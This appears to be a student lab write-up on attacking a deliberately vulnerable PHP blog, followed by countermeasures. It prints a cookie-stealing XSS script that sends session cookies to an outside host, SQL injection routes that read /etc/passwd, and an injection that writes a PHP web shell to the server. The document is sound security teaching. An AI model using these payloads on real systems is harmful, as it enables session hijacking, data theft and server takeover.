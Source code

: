 # 1 - Cross-Site Scripting

## 1.1 - XSS vulnerability: cookie hijack attack

When creating a new post, one can easily see that angle brackets aren't
escaped, hence allowing a XSS attack.

With the following payload, any user loading the post page will send
a GET request to 10.0.2.2 with its cookie as a query parameter.
As a sidenote, I ran my own little Web server on my host outsite
VirtualBox, which explains this raw IP.

```html
<script>
var request = new XMLHttpRequest();
request.open("GET", "http://10.0.2.2:3001?cookie=" + document.cookie);
request.send(null);
</script>
```

The server receives a request with a body similar to the following one:

```json
{ "cookie": "PHPSESSID=4l9v89l9s2vkog36aoef350pd4" }
```

Then, you just have to wait for an admin to leak its cookie, and with
his cookie you can pretty much spoof its identity. To do so, you just
have to add a cookie on your client browset and set its value to the
admin stolen cookie.

## 1.2 - Countermeasures

The easiest way to prevent this XSS vulnerability is to sanitize all
fields from the server to the client using, for example,
`htmlspecialchars` in PHP.

The user input should also be validated to avoid inserting illegal
characters into the database, like weird unicode characters that can
mess with the disposition of the page (Zalgo, RTLO, etc). For "real" XSS
attacks, some websites like GitHub restrict the use of certain tags like
`<script>` or `<style>` while allowing some other (`<a>`, `<br/>`...).
Make sure however that, for images, their source is also checked.

Otherwise, a heavier solution could be to use a front-end framework
like Angular or React and use API requests to fetch the data. These
framework will then sanitize the data by themselves by default and
prevent unsafe DOM operations.

HTTP headers can also be used to limit the leak if a XSS is exploited.
Content Security Policy can prevent the client from fetching external
websites and allowing only its own domain.

Finally, even with a XSS vulnerability, cookie theft can be avoided by
marking the cookie as HTTP only, which makes it unreadable by a JS
script.

# 2 - SQL Injection

## 2.1 - Vulnerability

An SQL injection happens when the client is allowed to communicate with
the database with unsanitized input, effectively gaining access to it.
In a safe web server, the client communicates to the server through an
API or using forms, and then the server communicates to the database.

However, on the `/admin/edit.php` page, it can be seen that it is
possible to directly access the SQL database through the `id` query
parameter.

After trying the other pages, it feels like this is the only SQL
vulnerability. However, with these kind of vulnerabilities, the devil is
in the details and it is a tedious job to check all inputs.

To find this vulnerability, I noticed that the route
`/admin/edit.php?id=-1` would, obvously, not find anything, however the
route `/admin/edit.php?id=-1 or true` would find a result.
Then, after some trial and error, I found that the route
`/admin/edit.php?id=0 union select 1,2,3,4` fills the textarea with the
text `3`. We just have to replace this `3` in the request by something
more useful and voila, with the route
`/admin/edit.php?id=0 union select 1,2,load_file("/etc/passwd"),4` we
get the content of the `/etc/passwd` file.

Looking at the source of the page, we can see that a `css` directory
exists. Usually, web servers are served from the Unix directory
`/var/www`. We can then try to create a file inside using our previous
SQL injection, on the route:
`/admin/edit.php?id=0 union select 1,2,3,4 into outfile "/var/www/css/test.php"`
Then, getting the page `/css/test.php` shows `1 2 3 4`, which proves
that we managed to write code into a server file.

Finally, we just have to use the route
`/admin/edit.php?id=0 union select 1,2,"<?php system($_GET['cmd']); ?>",4 into outfile "/var/www/css/attack.php"`
to create a remote shell on the `/css/attack.php` page. The command is
sent using the `cmd` query parameter. For example, we can now get the
content of the `/etc/passwd` file by fetching
`/css/attack.php?cmd=cat /etc/passwd`. This even works without the admin
cookie; we effectively installed a backdoor in the system, and can now
do whatever we want, like installing packages, load additional scripts
from internet, open a SSH connection, etc.

## 2.2 - Countermeasures

On the application side, every user input should be sanitized. The
server should also use prepared statements to force MySQL to interpret
the data as data and not as a command.
```php
$stmt = $conn->prepare("INSERT INTO db (username, password) VALUES (?, ?)");
$stmt->bind_param("ss", $user, $passwd);
```
As always, one can also use an ORM framework to make sure no SQL query
get forgotten.
SQL transactions can also be used, such that the transaction can be
cancelled if the server notice something is off, like more than one row
deleted from the table.

Additionally, the database itself should have as few permissions as
possible. It shouldn't be possible to access or modify external
resources like the file system, internal resources like the SQL users
or the structure of the table (forbid drop, add or remove column, change
charset, etc).

The third and last point is at the OS level. The Web server should
definitely not run as root, it should at least run as a separate user
with very limited read / write filesystem access, and at best run in its
own Docker container. This would also limit the resource allocation by
preventing exessive RAM or CPU usage that could slow the whole physical
server.
